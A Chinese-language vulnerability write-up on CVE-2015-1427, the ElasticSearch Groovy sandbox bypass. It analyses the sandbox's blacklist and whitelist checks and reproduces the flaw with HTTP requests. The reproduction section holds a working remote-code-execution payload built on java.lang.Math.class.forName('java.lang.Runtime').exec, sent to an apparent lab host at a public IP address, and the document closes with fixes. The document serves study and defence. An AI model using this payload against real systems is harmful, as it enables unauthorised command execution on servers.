










# ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）


## 1.&emsp;漏洞描述

- 漏洞描述：2015 年 03 月 05 日，ElasticSearch 惊爆严重安全漏洞，编号为 CVE-2015-1427 ，该漏洞将导致远程攻击者在受影响的系统上执行任意代码。
- 漏洞编号：CVE-2015-1427
- 漏洞等级：高危
- 影响版本：
  - ElasticSearch 1.4:  1.4.2 ,  1.4.1 ,  1.4.0 ,  1.4.0.Beta1
  - ElasticSearch1.3:  1.3.7 ,  1.3.6 ,  1.3.5 ,  1.3.4 ,  1.3.3 ,  1.3.2 ,  1.3.1 ,  1.3.0

## 2.   漏洞简介

ElasticSearch是一个JAVA开发的搜索分析引擎。2014年，曾经被曝出过一个远程代码执行漏洞（CVE-2014-3120），漏洞出现在脚本查询模块，由于搜索引擎支持使用脚本代码（MVEL），作为表达式进行数据操作，攻击者可以通过MVEL构造执行任意java代码，后来脚本语言引擎换成了Groovy，并且加入了沙盒进行控制，危险的代码会被拦截，结果这次由于沙盒限制的不严格，导致远程代码执行，目前网上还没看到公开的poc，经过一番研究，发现了利用方式，下面来看看漏洞是如何产生的。

Groovy是一种运行在JVM上的脚本语言，语法和java很像，同样可以调用java中的各种对象和方法，但是Groovy的语法更简单。

## 3.&emsp;漏洞分析

首先，我们执行一段带脚本的查询代码：

```http
POST http://127.0.0.1:9200/_search?pretty HTTP/1.1
User-Agent: es
Host: 127.0.0.1:9200
Content-Length: 184

{
"size":1,
    "script_fields": {
        "lupin": {
            "script": "1 + 6"
        }
    }
}
```

上面的请求中1+6，就是我们执行的脚本代码，下面的返回中的7就是执行结果：



下面再试着执行一下这段代码：

```http
POST http://127.0.0.1:9200/_search?pretty HTTP/1.1
User-Agent: es
Host: 127.0.0.1:9200
Content-Length: 184

{
"size":1,
    "script_fields": {
        "lupin": {
            "script": "new java.lang.ProcessBuilder(\“calc\”)"
        }
    }
}
```

执行之后，报了错，从错误中可以看到，构造java.lang.ProcessBuilder对象是不允许的：



下面我们看看ElasticSearch沙盒的相关代码，实现沙盒的类是`com.elasticsearch.script.groovy.GroovySandboxExpressionChecker`，它订制了Groovy的沙盒，对表达式进行了安全检测，但是这个沙盒与JAVA的SecurityManager那种沙盒是不同的。

从代码中可以看到这个沙盒，只是根据黑白名单，在表达式语义上判断表达式是否合法的，可以说是一个“浅”沙盒，简单来来说，比如沙盒设置不允许调用shell()这个方法，直接调用shell()方法，沙盒在表达式中发现了shell()这个字符串，就会报非法调用，但是如果有一个方法叫poc()这个方法中调用了shell()方法（poc(){shell()}）,当调用poc()方法的时候，shell()方法也就被间接调用了沙盒并不会报错。

 具体来说`isAuthorized(Expression expression)`方法如果返回false，说明表达式非法，true则合法，从isAuthorized方法的实现中可以看到，它根据黑白名单对方法调用和对象构造都进行了检测：







从上面的白名单中可以看到，允许构造对象和方法调用的类，都是一些常规类，没有我们可以利用的类，而且如果我们想要利用反射去调用我们想调用的类，方法黑名单中又限制了getClass的调用，我们无法通过getClass方法获取Class对象，但是我们可以看到方法白名单中，并没有对forName方法进行限制，也就是说，如果我们能获取到Class对象，再调用forName方法就可以获取到我们想访问的类。 那么我们如何能够获取一个Class对象呢？首先我想到的是通过`java.lang.String.class`这样的方式，通过class让JVM返回String类的class对象，可以看到的确获取到了Class对象：



那么我们在试试可不可以通过这个Class对象调用forName方法，加载java.lang.Runtime这个我们最想要的类，可惜报错了：



出错的原因是java.lang.String这个类是不允许进行方法调用的，只有在上面defaultReceiverWhiteList这个白名单中的类，才可以进行方法调用，这个控制是在Groovy沙盒类`org.codehaus.groovy.control.customizers.SecureASTCustomizer`中做的判断：



既然这样，思路就又有了，我们就拿这个白名单中的类获取Class对象，然后再调用forName方法，是不是就可以突破这个限制了，我这里使用java.lang.Math这个类来试试，这个类是在recevicer白名单中的，可以看到成功获取了java.lang.Runtime类：

```http
POST http://127.0.0.1:9200/_search?pretty HTTP/1.1
User-Agent: es
Host: 127.0.0.1:9200
Content-Length: 132

{
"size":1,
    "script_fields": {
        "lupin": {
            "script": "java.lang.Math.class.forName(\“java.lang.Runtime\”)"
        }
    }
}
```


有了Runtime类，后面的事情就好办了要调用到的各种方法都不在方法黑名单里面，我这里就不公布具体POC了，看懂上面原理的同学自然明白：



## 4.&emsp;漏洞复现

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```http
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "xiaohuihui"
}
```

然后发送包含payload的数据包，执行任意命令：

```http
POST /_search?pretty HTTP/1.1
Host: 218.2.197.232:20963
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 171
Content-Type: application/text

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"cat /tmp/flag.txt\").getText()"}}}
```



## 5.&emsp;修复方案

方法一：升级到官方最新版本

方法二：在 ElasticSearch 文件下 /config/elasticsearch.yml 中加入：`script.groovy.sandbox.enabled: false`
